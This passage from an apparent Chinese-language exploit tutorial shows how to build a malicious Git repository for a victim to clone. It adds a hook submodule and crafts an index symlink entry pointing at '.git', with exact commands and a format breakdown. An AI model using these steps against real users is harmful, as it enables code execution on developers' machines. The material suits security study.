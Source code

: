 现在我们已经完成了  
hook的准备。  
  
创建 captain repo  
  
cloned  
这是受害者获取的 repo ，  
hook其子模块为 repo。让我们看看如何准备这个 repo。  
  
1.进入captain我们之前克隆的仓库  
  
2.hook使用以下命令将 repo添加为此 repo 中的子模块  
```
git submodule add --name x/y "git@github.com:SecureMyOrg/hook.git" A/modules/x
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48tacBibxicHopIClDb3fNj4AeZu7fTtfW7pAxAFGfqeajSEfPQt3FrMZX8QSFgBaWwXWSaa8SSeiafeXIA/640?wx_fmt=png&from=appmsg "")  
  
3.现在我们将创建一个文件  
dotgit.txt，其内容为字符串 -  
.git  
  
4.之后我们创建同一个文件的 git hash-object，并创建一个  
index.info包含 git hash-object 内容的文件。该值120000表示git 中的符号链接https://git-scm.com/book/en/v2/Git-Internals-Git-Objects#_tree_objects。  
```
printf .git >dotgit.txt 
git hash-object -w --stdin <dotgit.txt >dot-git.hash 
printf "120000 %s 0\ta\n" "$(cat dot-git.hash)" >index.info
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48tacBibxicHopIClDb3fNj4AeZuMrf0uIwVsBEMzu4GUcvn2PP5AXDH8Kf2qxdrGqwaeiaKibDhojmib63HA/640?wx_fmt=png&from=appmsg "")  
  
5. 我们将使用此index.info文件通过精心制作的有效负载更新 git 索引index.info脚本中使用的文件结构经过特殊格式化，可使用符号链接条目更新 Git 索引。让我们分解格式并了解其组成部分：  
  
结构index.info  
  
其中的每一行index.info代表一个要添加到 Git 索引的条目。每行的格式为：  
```
<mode> <object hash> <stage>\t<path>
```  
  
在哪里：  
- <mode>：文件模式，表示文件的类型及其权限。对于符号链接，这是120000。  
  
- <object hash>：Git 对象数据库中对象的 SHA-1 哈希值。这是一个 40 个字符的十六进制字符串，用于唯一标识文件或符号链接目标的内容。  
  
- <stage>：阶段编号，用于处理合并冲突。适用0于普通条目。  
  
- <path>：相对于存储库工作目录根目录的文件路径。  
  
示例细分  
  
index.info以下是脚本中的示例行：  
```
printf "120000 %s 0\ta\n" "$(cat dot-git.hash)" >index.info
```  
  
让我们详细分析一下：  
  